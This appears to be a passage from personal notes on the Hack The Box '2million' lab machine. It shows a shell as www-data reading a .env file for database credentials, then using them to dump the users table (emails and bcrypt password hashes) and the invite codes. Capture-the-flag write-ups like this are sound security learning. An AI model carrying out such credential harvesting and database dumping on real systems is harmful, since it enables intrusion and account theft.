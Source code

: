 [[Z Assets/Images/Pasted image 20250816120509.jpeg|Open: Pasted image 20250816120509.png]]
![[Z Assets/Images/Pasted image 20250816120509.jpeg]]

The content is quite interesting
[[Z Assets/Images/Pasted image 20250816120545.jpeg|Open: Pasted image 20250816120545.png]]
![[Z Assets/Images/Pasted image 20250816120545.jpeg]]
```sh
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

### Connecting to database
```sh
mysql -u admin -p htb_prod


MariaDB [htb_prod]> select * from users;
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| id | username     | email                      | password                                                     | is_admin |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| 11 | TRX          | trx@hackthebox.eu          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| 12 | TheCyberGeek | thecybergeek@hackthebox.eu | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| 13 | slom         | slom@gmail.com             | $2y$10$8JgUdlLzI3eJLbf4U9fvIu/9I20L.g/v3wtfu1du5OHTNl2AWAxXO |        1 |
| 14 | kaan         | kaan40111@gmail.com        | $2y$10$tEJ8Z0dHZMu0EPSwBO5qAOTpS74j.3A4qrTSkBumQj/UHI0mP9t.. |        0 |
| 15 | asd          | asdasd@wdwa.co             | $2y$10$ALod1SF0I8Bxk.cwlzc6N.bBcRUNxiqFtj5Zgm1SxvybQ4.YVKa82 |        0 |
| 16 | asdasd       | asd@asd.asd                | $2y$10$oBZpxx22KwCiVtS3FsNulef0yXqdR.uUwLT6fTOpF34O0ke7YEdqe |        0 |
| 17 | testdummy    | w@gmail.com                | $2y$10$KYv53IW.He6rl/OvGqObQOoFaPHDlOP3hS/d8q2xy.dVUpDcjXFau |        0 |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+

MariaDB [htb_prod]> select * from invite_codes;
+----+-------------------------+
| id | code                    |
+----+-------------------------+
|  2 | SP1F1-XQODG-4W8RX-DHW9K |
|  4 | VG6FO-HLX9B-1CB6W-C2LLP |
|  6 | B3IRI-MCHR7-3EPV0-7P4B1 |
|  7 | JE9D7-J5PPL-LJ82R-IWH4S |
|  8 | 0KFVA-P26W7-UWT9N-XFW75 |
| 11 | V0VMS-SMM9A-7ODN7-K1L42 |
| 13 | QG7VM-ARQRG-9HE4D-UJJ45 |
+----+-------------------------+
7 rows in set (0.001 sec)

MariaDB [htb_prod]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
```